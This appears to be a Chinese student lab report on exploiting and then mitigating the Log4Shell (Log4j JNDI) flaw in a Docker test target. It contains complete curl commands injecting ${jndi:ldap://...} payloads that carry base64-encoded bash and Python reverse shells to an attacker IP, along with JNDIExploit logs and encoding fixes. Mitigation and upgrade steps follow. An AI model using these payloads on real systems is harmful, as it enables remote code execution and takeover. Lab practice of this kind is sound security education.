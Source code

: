 # 实验准备

首先进行环境部署
![](./pic/部署完成.png)

验证能够成功打开网页
![](./pic/进入网页.png)

按照视频将docker中的demo.jar文件复制到本机上
![](./pic/demo.jar.png)

## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容
![](./pic/shell反弹失败.png)
课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell
![](./pic/强制GET收获监听初步进展.png)

换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
![](./pic/修改curl请求成功反弹shell.png)

## 在以上两步中经历的curl修改

### 1. 尝试移除“=”填充符

```bash
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'
encoded_payload=$(echo -n "$payload" | base64 -w 0 | tr -d '=' | sed 's/+/%252B/g; s/\//%252F/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
```
JNDIExploit 反复报错 Incorrect params。
__问题分析__
Base64 编码嵌套问题：Payload 是 bash -c {echo,...}|{base64,-d}|{bash,-i} 的 Base64 编码，但 JNDIExploit 似乎无法处理这种嵌套结构。日志显示工具接收到了 LDAP 查询，但在解析 TomcatBypass/Command/Base64/... 时失败。
特殊字符干扰：Base64 字符串中的 =（填充符）和 |、{、} 等符号可能被错误解析。

### 2.简化命令格式，避免使用 bash -c {echo,...}|... 这种复杂结构，改用直接命令

```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
JNDIExploit 接收到了正确的 Base64 编码命令（YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ== 解码后为 bash -i >& /dev/tcp/192.168.8.132/7777 0>&1），但仍然报错 Incorrect params。
__问题分析__
JNDIExploit 工具本身对参数的处理上可能有一定问题。

### 3.调整 Base64 编码方式，移除“=”填充符并简化特殊符号处理

```bash
cmd='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=')
curl -G "http://192.168.8.129:58468/hello" \ --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
报错及问题与第一次的问题类似，不多赘述。

### 4.调整 Base64 编码格式。JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，尝试移除填充符“=”并简化编码。得到完成的代码。

# ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
我们胜利了...暂时的

# 漏洞缓解与绕过测试

现在使用直接修改容器中文件的办法来尝试进行缓解

首先为了工作目录不影响其他文件，创建临时文件夹work<br>
![](./pic/创建临时工作文件夹.png)<br>
然后把原来的demo.jar直接解包到当前文件下<br>
![](./pic/解包demo.jar.png)<br>
现在我们拿到了demo.jar的文件，我们来看其中的文件，发现有log4j的.core文件，核心文件，包含有部分漏洞信息，我们对其进行修改<br>
![](./pic/核心文件.png)<br>
![](./pic/修改核心文件内容.png)<br>
修改完成之后，我们尝试使用查找命令来看有没有删除目标内容<br>
![](./pic/验证命令_说明已删除.png)<br>
其后，再添加全局禁用，来保证一定的安全<br>
![](./pic/添加全局禁用配置.png)<br>
然后，我们将文件重新打包<br>
![](./pic/重新打包到demo.jar.png)

## 验证缓解效果

我们使用
```bash
curl "http://192.168.8.129:51707/search?q=\${jndi:ldap://192.168.8.132:7777/a}"
```
来验证效果<br>
![](./pic/结果.png)<br>
请求成功到达了目标服务器（192.168.8.129:51707）/search 路径存在或被 Web 框架处理了。但并没有在监听窗口（nc 监听）看到任何连接，也没有出现服务器尝试访问 192.168.8.132:1389

## 绕过

再次使用上次的命令’
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:51707/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
发现还是可以有反弹shell<br>
上文中已经发现log4j不能访问，此处可能是因为有其他JNDI被执行，或者在其他的组件的core中仍然存在其他的JNDI执行的部分

# 修复

选择了升级的选项，在升级之后再次执行以上内容，发现攻击者主机上没有内容输出，说明无法访问到容器内，此时显然已经修复
